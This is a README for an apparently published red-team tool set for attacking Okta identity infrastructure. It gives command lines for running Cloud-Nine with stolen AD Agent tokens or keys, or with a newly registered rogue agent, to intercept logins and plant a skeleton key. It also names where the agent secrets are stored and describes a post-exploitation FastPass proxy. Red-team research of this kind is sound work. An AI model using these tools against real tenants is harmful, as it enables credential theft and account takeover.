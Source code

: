 ## Info

This repo contains projects to support the "Okta for Red Teamers" blog post [here](https://blog.xpnsec.com/okta-for-redteamers/).

## Cloud-Nine

An Okta Agent tool which emulates an AD Agent, allows interception of authentication requests, and adding a skeleton key.

### Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

### Usage

Three modes are supported:

1. Use a stolen AD Agent token (agent version < 3.18.0) to connect to Okta and intercept authentication requests:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 token --api-token 0023452Lllk2KqjLBvaxANWEgTd7bqjsxjo8aZj0wd --app-id 0oa7c027u2TcJxoki697 --agent-id a537cnm9ldwPILkqP697
```

2. Use a stolen AD Agent key (agent version >= 3.18.0) to connect to Okta and intercept authentication requests:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 key --app-id 0o[...]7 --agent-id a5[...]7 --client-id wl[...]7 --agent-key '{"d":"LA[...]=","p":"1r[...]=","q":"xm[...]=","dp":"eo[...]=","dq":"Pr[...]=","qp":"Ae[...]=","n":"pm[...]=","e":"AQAB"}'
```

The `AppId`, `AgentId`, `ClientId` and `AgentKey` parameters can be found in the `OktaAgentService.exe.config` file. The `AgentKey` setting is, like the `AgentToken` in older versions, protected with the DPAPI master key of the account running the Okta AD Agent service.

3. Register a new AD Agent with Okta and intercept authentication requests:

> Note: You'll need an OAuth Response Code which you can get from:

```
https://example.okta.com/oauth2/authorize?redirect_uri=%2Foauth-response&response_type=code&client_id=cappT0Hfy97F1BoO1UTR&prompt=select_account
```

Then we can pass this as an arg to:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 oauth --machine-name DC01 --windows-domain lab.local --code OAUTH_CODE_HERE
```

## OktaRealFast

This is a proxy tool for validating Okta FastPass JWT's before forwarding them to a target host.

The idea is simple.. it gives the ability to see if a popup is going to be presented to the user during post-exploitation. 

More information in the blog post https://blog.xpnsec.com/identity-providers-redteamers.

## malIDP

This has been moved to its own repository at [https://github.com/xpn/malIDP](https://github.com/xpn/malIDP).

